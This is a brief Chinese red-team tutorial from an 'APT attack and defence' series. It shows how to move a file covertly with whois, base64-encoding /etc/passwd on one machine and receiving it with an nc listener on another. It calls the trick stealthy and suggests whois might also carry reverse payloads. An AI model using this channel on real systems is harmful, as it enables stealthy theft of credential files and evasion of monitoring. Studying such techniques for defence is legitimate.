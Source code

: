 专注APT攻击与防御
https://micropoor.blogspot.com/

利用whois传输文件：

传输机：
```
root@john:~# whois -h 127.0.0.1 -p 4444 `cat /etc/passwd | base64`
```

接受机：
```
root@john:/tmp# nc -l -v -p 4444 | sed "s/ //g" | base64 -d
```
![](media/cd6ba6694ef1388b87dc4a5ce706ecd8.jpg)

![](media/2ee55e5bed9e117f9340df1f2e755410.jpg)
**优点：**适用于隐蔽传输。最小化被发现。
**缺点：**适用于传输小文件。


>   后者的话：whois是否同样适用于payload的反弹，是一个非常有趣的实验。
>   Micropoor

